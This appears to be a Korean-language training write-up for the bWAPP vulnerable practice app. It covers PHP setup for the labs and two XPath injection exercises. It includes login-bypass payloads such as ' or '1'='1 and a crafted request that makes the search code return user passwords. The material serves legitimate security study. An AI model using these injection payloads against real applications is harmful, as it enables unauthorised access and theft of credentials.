 ### bwapp

APM 기반의 실습 사이트이며, YOUTUBE 동영상으로도 실습 방법을 잘 제공하고 있어 매우 유용하다.

XPATH에 대해서는 알려진 자료가 부족하여 여기에 다시 다룬다.


### PHP 설정

직접 APM을 구축하였다면, 여러 설정들로 실습에 난항이 있다.

magic_quotes_gpc = On 일 경우, sql injection 및 싱글쿼트(')사 사용되는 XPATH injection 도 할 수 없다.

magic_quotes_gpc = Off 로 수정하거나, 입력 파라미터가 적용되기 전에 역슬래시를 제거한다.

stripslahes 함수도 써본다.

### XPATH 1

XPATH 관련 실습 과제가 2개가 있는데, 하나는 로그인 우회이다.

이는 SQL Injection과 거의 같다.

' or '1'='1

코드 형태에 따라 첫번째 사용자에 대해서 출력되거나, 입력된 사용자를 출력한다.

사용자를 확인하는 코드라면 {사용자}' or '1'='1 로 수정해야 동작할 것이다.

wolverine' or 'a'='a--

형태로 사용자명을 넣어주면, 원하는 사용자로 로그인 할 수 있다.


### XPATH 2

XPATH 실습 두번째는 union 과 유사하다.

코드에 따라 다르지만, bWAPP에서 제공하는 코드는 contains를 사용하여 vertical bar;(│)로 조합한다.

실습 코드는 원래 장르에 따른 영화 이름을 출력하지만, 공격 코드는 패스워드를 출력하도록 되어 있다.

이해를 더 하고 싶으면, 서버를 구성하여, 조합된 공격 코드의 전체 구조를 확인하는 것이 좋다.


### XPATH 2 상세 내용

[코드]

$result = $xml->xpath("//hero[contains(genre, '**$genre**')]/movie");


[정상요청]

xmli_2.php?genre=**action**&action=search

[정상 외부 입력]

$xml->xpath(//hero[contains(genre, '**action**')]/movie);


[공격요청]

xmli_2.php?genre=**action')]/password+│+//hero\[contains(genre,'+horror**&action=search

[공격 외부 입력]

$xml->xpath(//hero[contains(genre, '**action')]/password │ //hero[contains(genre,' horror**')]/movie)
